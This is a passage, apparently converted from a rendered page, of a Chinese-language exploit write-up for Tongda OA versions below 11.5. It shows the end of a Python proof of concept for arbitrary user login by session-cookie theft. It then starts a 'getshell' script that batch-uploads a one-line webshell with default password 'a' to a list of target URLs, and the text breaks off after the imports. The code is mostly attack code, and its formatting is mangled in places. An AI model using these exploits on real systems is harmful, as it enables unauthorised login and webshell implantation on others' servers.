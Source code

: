         else:
            print('[-] Failed to get session of current URL')

    except Exception as error:
        pass

def run(self):
    self.get_tongda_cookies() 
```

if **name** == ‘**main**’:

```
# Author  : 小泫

warnings.simplefilter("ignore")
if (len(sys.argv)) &lt; 2:
    print('useage : python' +str(sys.argv[0]) + ' -h')
else:
    parser =argparse.ArgumentParser()
    parser.description ='通达OA &lt; 11.5版本 任意用户登录'
    parser.add_argument('-u',help="待检测url -&gt; example http://127.0.0.1",type=str,dest='check_url')
    args =parser.parse_args()

    aa = Tond_da_poc(args.check_url)
    aa.run() 
``` 
```

![image](../img/cdf404862706f77949b0eb9b31a82bc6.png)

### getshell poc

> url.txt： 测试url，支持批量

> vuln.txt：上传成功的webshell

> 上传的默认一句话shell密码a

```
# Usage: python tongda.py
# Default webshell password:a

import requests

import threadpool

import urllib3

import json

import base64

urllib3.disable_warnings()

header = {

“User-Agent”: “Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36”,
```